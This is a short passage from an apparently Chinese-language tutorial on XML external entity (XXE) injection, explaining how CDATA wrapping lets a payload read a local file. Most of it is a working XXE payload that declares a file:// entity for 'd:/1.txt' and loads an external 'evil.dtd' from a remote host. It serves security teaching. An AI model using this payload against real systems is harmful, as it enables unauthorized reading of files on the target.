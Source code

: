 ![img](XXE.assets/modb_20211021_1871fc62-3260-11ec-b086-fa163eb4f6be.png)

##### 2.使用CDATA

CDATA节中的所有字符都会被当做元素字符数据的常量部分，而不是 xml标记

**payload:**

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % goodies SYSTEM "file:///d:/1.txt">  
<!ENTITY % end "]]>"> 
<!ENTITY % dtd SYSTEM "http://ip/evil.dtd"> 
%dtd; ]> 

<roottag>&all;</roottag>

#evil.dtd
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%goodies;%end;">
```

